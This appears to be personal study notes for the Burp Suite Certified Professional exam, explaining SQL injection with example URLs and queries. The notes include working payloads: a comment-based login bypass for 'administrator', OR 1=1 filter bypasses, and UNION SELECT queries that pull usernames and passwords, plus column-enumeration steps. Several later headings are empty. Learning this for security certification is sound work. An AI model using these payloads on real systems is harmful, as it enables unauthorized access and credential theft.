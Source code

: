# BSCP

These are my notes for BSCP.  Burpsuite Certified Professional.

Reference Sheet
SQL Injection Payload List
    https://github.com/payloadbox/sql-injection-payload-list
SQLi Cheat Sheet


SQLi Examples
-----------------
    Retrieving hidden data
        Application displays choices of differing categories from a table. When selecting a choice the browser requests the following URL:
            https://insecure-website.com/products?category=Gifts
        Application performs SQL query
            SELECT * FROM products WHERE category = 'Gifts' AND released = 1
        This query retrieves the following from the database
            all details(*), from the products table, where the category is gifts, and released is 1
                released = 1 is interesting what is released = 0?
        To test
            https://insecure-website.com/products?category=Gifts'--
                which will perform this query
                    SELECT * FROM products WHERE category = 'Gifts'--' AND released = 1
                    The -- is a comment indicator for SQL, which interprets the rest of the query as a comment or effectively removes "AND released = 1" and should display anything in the field of "released" maybe "unreleased"?
        To enumerate further unknown categories
            https://insecure-website.com/products?category=Gifts'+OR+1=1--
                resulting in this query
                    SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1
        Take note when injecting a condition "OR 1 = 1", applications commonly use data from the request in mulitple queries, if UPDATE or DELETE statement is reached by your condition data can go poof
 -----------------   
    Subverting Application Logic
        a login application with username and password, checks credentials with SQL by performing this query
            SELECT * FROM users WHERE username = 'wiener' AND password = 'bluecheese'
        if this returns the user details, then login succeeds, else it fails
            can we attempt "administrator'--  to comment out the password part of the query?
                SELECT * FROM users WHERE username = 'administrator'--' AND password = ''
 ----------------
    Retrieving data from other database tablles
        If the results of an SQL query are within the applications response, we use SQLi to retrieve data from other tables within the databsae with the UNION and execute an additional SELECT
        ex: with this query
            SELECT name, description FROM products WHERE category = 'Gifts'
        we can alter it by submitting:
            ' UNION SELECT username, password FROM users--
        which should return all usernames and passwords
UNION ATTACKS
    SELECT a, b FROM table1 UNION SELECT c, d FROM table2
        this will return a single result with two columns 'a and b' within table 1 and 'c and d' within table 2
    UNION requires
        individual queries == number of columns
        data types in each column are compatible
    To perform we then enumerate:
        how many columns are being returned from originating query
        which have suitable data types
    How to determine the number of columns for SQLi UNION attacks
        two methods
            A. injecting a series of "ORDER BY" (assumed injection point is the "WHERE" clause of original query)
                ' ORDER BY 1--
                ' ORDER BY 2--
                ' ORDER BY 3--
                """UNTIL ERROR""" this may be within the HTTP response or a generic error, or no results, must infer the
            B. Submit a series of "UNION SELECT" payloads with differing null values:
                ' UNION SELECT NULL--
                ' UNION SELECT NULL,NULL--
                ' UNION SELECT NULL,NULL,NULL--
                """Until error is achieved""" might be NullPointerException


    Examining the database
        





    Blind SQL Injection Vulnerabilities

    Conditionally trigger time delay in query processing

    Detecting SQLi vulnerabilities

    SQLi in different parts of the query

    Second Order SQLi

    Preventing SQLi

